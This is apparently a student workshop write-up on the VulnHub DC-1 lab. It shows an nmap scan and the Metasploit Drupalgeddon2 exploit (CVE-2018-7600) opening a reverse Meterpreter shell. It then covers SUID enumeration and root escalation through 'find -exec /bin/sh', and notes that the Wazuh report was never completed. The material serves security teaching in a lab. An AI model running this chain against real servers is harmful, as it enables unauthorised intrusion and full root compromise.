

<!--
pandoc README.md -o Toni_Peraira_Workshop_02_Metasploit.pdf --from markdown --template eisvogel --listings --pdf-engine=xelatex
-->

# Workshop 2 - Metasploit

In this workshop we will make a metasploit attack on a Linux machine and get permissions from
root. The victim is a machine extracted from VulnHub (DC-1) that has a Wazuh agent installed and
is sending events and alerts to our Wazuh manager. After the attack, we need to make one
report of events & alerts collected in Wazuh.

```
Wazuh agent to attack
IP: 192.168.128.130
```

```
Wazuh Manager
IP: 192.168.128.80
```

* Investigate which ports the victim has open:

```
$ nmap -sV 192.168.128.130
Starting Nmap 7.92 ( https://nmap.org ) at 2022-03-04 17:47 CET
Nmap scan report for DC-1.institutmontilivi.cat (192.168.128.130)
Host is up (0.0070s latency).
Not shown: 997 closed tcp ports (conn-refused)
PORT    STATE SERVICE VERSION
22/tcp  open  ssh     OpenSSH 6.0p1 Debian 4+deb7u7 (protocol 2.0)
80/tcp  open  http    Apache httpd 2.2.22 ((Debian))
111/tcp open  rpcbind 2-4 (RPC #100000)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 896.49 seconds
```

We found these open ports:

- 22
- 80
- 11

* What content does the web have?

A Drupal website.



* Run *msfconsole* and see if Metasploit has any *exploit* for this content:

```
$ msfconsole
                                                  
 _                                                    _
/ \    /\         __                         _   __  /_/ __
| |\  / | _____   \ \           ___   _____ | | /  \ _   \ \
| | \/| | | ___\ |- -|   /\    / __\ | -__/ | || | || | |- -|
|_|   | | | _|__  | |_  / -\ __\ \   | |    | | \__/| |  | |_
      |/  |____/  \___\/ /\ \\___/   \/     \__|    |_\  \___\


       =[ metasploit v6.1.27-dev                          ]
+ -- --=[ 2196 exploits - 1162 auxiliary - 400 post       ]
+ -- --=[ 596 payloads - 45 encoders - 10 nops            ]
+ -- --=[ 9 evasion                                       ]

Metasploit tip: Use sessions -1 to interact with the 
last opened session

msf6 > search drupal

Matching Modules
================

   #  Name                                           Disclosure Date  Rank       Check  Description
   -  ----                                           ---------------  ----       -----  -----------
   0  exploit/unix/webapp/drupal_coder_exec          2016-07-13       excellent  Yes    Drupal CODER Module Remote Command Execution
   1  exploit/unix/webapp/drupal_drupalgeddon2       2018-03-28       excellent  Yes    Drupal Drupalgeddon 2 Forms API Property Injection
   2  exploit/multi/http/drupal_drupageddon          2014-10-15       excellent  No     Drupal HTTP Parameter Key/Value SQL Injection
   3  auxiliary/gather/drupal_openid_xxe             2012-10-17       normal     Yes    Drupal OpenID External Entity Injection
   4  exploit/unix/webapp/drupal_restws_exec         2016-07-13       excellent  Yes    Drupal RESTWS Module Remote PHP Code Execution
   5  exploit/unix/webapp/drupal_restws_unserialize  2019-02-20       normal     Yes    Drupal RESTful Web Services unserialize() RCE
   6  auxiliary/scanner/http/drupal_views_user_enum  2010-07-02       normal     Yes    Drupal Views Module Users Enumeration
   7  exploit/unix/webapp/php_xmlrpc_eval            2005-06-29       excellent  Yes    PHP XML-RPC Arbitrary Code Execution


Interact with a module by name or index. For example info 7, use 7 or use exploit/unix/webapp/php_xmlrpc_eval

```


* One that you can use is the *Drupal Drupalgeddon 2 Forms API Property Injection* that
exploits the [https://nvd.nist.gov/vuln/detail/CVE-2018-7600](CVE-2018-7600) vulnerability.

```
msf6 > info 1

       Name: Drupal Drupalgeddon 2 Forms API Property Injection
     Module: exploit/unix/webapp/drupal_drupalgeddon2
   Platform: PHP, Unix, Linux
       Arch: php, cmd, x86, x64
 Privileged: No
    License: Metasploit Framework License (BSD)
       Rank: Excellent
  Disclosed: 2018-03-28

Provided by:
  Jasper Mattsson
  a2u
  Nixawk
  FireFart
  wvu <wvu@metasploit.com>

Available targets:
  Id  Name
  --  ----
  0   Automatic (PHP In-Memory)
  1   Automatic (PHP Dropper)
  2   Automatic (Unix In-Memory)
  3   Automatic (Linux Dropper)
  4   Drupal 7.x (PHP In-Memory)
  5   Drupal 7.x (PHP Dropper)
  6   Drupal 7.x (Unix In-Memory)
  7   Drupal 7.x (Linux Dropper)
  8   Drupal 8.x (PHP In-Memory)
  9   Drupal 8.x (PHP Dropper)
  10  Drupal 8.x (Unix In-Memory)
  11  Drupal 8.x (Linux Dropper)

Check supported:
  Yes

Basic options:
  Name         Current Setting  Required  Description
  ----         ---------------  --------  -----------
  DUMP_OUTPUT  false            no        Dump payload command output
  PHP_FUNC     passthru         yes       PHP function to execute
  Proxies                       no        A proxy chain of format type:host:port[,type:host:port][...]
  RHOSTS                        yes       The target host(s), see https://github.com/rapid7/metasploit-framework/wiki/Using-Metasploit
  RPORT        80               yes       The target port (TCP)
  SSL          false            no        Negotiate SSL/TLS for outgoing connections
  TARGETURI    /                yes       Path to Drupal install
  VHOST                         no        HTTP server virtual host

Payload information:
  Avoid: 3 characters

Description:
  This module exploits a Drupal property injection in the Forms API. 
  Drupal 6.x, < 7.58, 8.2.x, < 8.3.9, < 8.4.6, and < 8.5.1 are 
  vulnerable.

References:
  https://nvd.nist.gov/vuln/detail/CVE-2018-7600
  https://www.drupal.org/sa-core-2018-002
  https://greysec.net/showthread.php?tid=2912
  https://research.checkpoint.com/uncovering-drupalgeddon-2/
  https://github.com/a2u/CVE-2018-7600
  https://github.com/nixawk/labs/issues/19
  https://github.com/FireFart/CVE-2018-7600

Also known as:
  SA-CORE-2018-002
  Drupalgeddon 2

```

```
msf6 exploit(unix/webapp/drupal_drupalgeddon2) > set RHOSTS 192.168.128.130
RHOSTS => 192.168.128.130
msf6 exploit(unix/webapp/drupal_drupalgeddon2) > exploit

[*] Started reverse TCP handler on 192.168.128.119:4444 
[*] Running automatic check ("set AutoCheck false" to disable)
[!] The service is running, but could not be validated.
[*] Sending stage (39282 bytes) to 192.168.128.130
[*] Meterpreter session 1 opened (192.168.128.119:4444 -> 192.168.128.130:33118 ) at 2022-03-04 18:01:36 +0100

meterpreter > 
```


* Get machine information:
    - sysinfo
    - getuid
    - whoami

```
meterpreter > sysinfo
Computer    : DC-1
OS          : Linux DC-1 3.2.0-6-486 #1 Debian 3.2.102-1 i686
Meterpreter : php/linux
meterpreter > getuid
Server username: www-data
meterpreter > whoami
[-] Unknown command: whoami
```


* At this point, the exploit works and you are inside the victim with the user *www-data*. Now
you need to escalate privileges, so you have to open a *reverse shell* and with Python generate one
terminal tty:

```
meterpreter > shell
Process 4600 created.
Channel 0 created.
python -c 'import pty; pty.spawn("/bin/bash")'
www-data@DC-1:/var/www$ 
```


Now we will search for files with SUID permissions, those with the 's' bit enabled. This property is necessary for normal users to perform tasks that require higher privileges:

```
www-data@DC-1:/var/www$ find /usr/bin -perm -u=s -type f
find /usr/bin -perm -u=s -type f
/usr/bin/at
/usr/bin/chsh
/usr/bin/passwd
/usr/bin/newgrp
/usr/bin/chfn
/usr/bin/gpasswd
/usr/bin/procmail
/usr/bin/find
```


In this case, we will use the last of all these files for the privilege escalation:

```
www-data@DC-1:/var/www$ find . -exec /bin/sh \; -quit
find . -exec /bin/sh \; -quit
# 
```

Now, with the *whoami* command, check which user you are and you will see that you already have permissions of administrator.

```
# whoami
whoami
root
# cd /root	
cd /root
# ls -lisa
ls -lisa
total 32
   570 4 drwx------  4 root root 4096 Feb 28  2019 .
     2 4 drwxr-xr-x 23 root root 4096 Mar  4 21:12 ..
  9944 4 drwx------  2 root root 4096 Feb 19  2019 .aptitude
   169 4 -rw-------  1 root root   44 Feb 28  2019 .bash_history
   608 4 -rw-r--r--  1 root root  949 Feb 19  2019 .bashrc
150691 4 drwxr-xr-x  3 root root 4096 Feb 19  2019 .drush
   607 4 -rw-r--r--  1 root root  140 Nov 20  2007 .profile
 33060 4 -rw-r--r--  1 root root  173 Feb 19  2019 thefinalflag.txt
# cat thefinalflag.txt
cat thefinalflag.txt
Well done!!!!

Hopefully you've enjoyed this and learned some new skills.

You can let me know what you thought of this little journey
by contacting me via Twitter - @DCAU7
```

We will make a report with the events captured by the wazuh manager:


For now we have not been able to capture the events with the Wazuh Manager.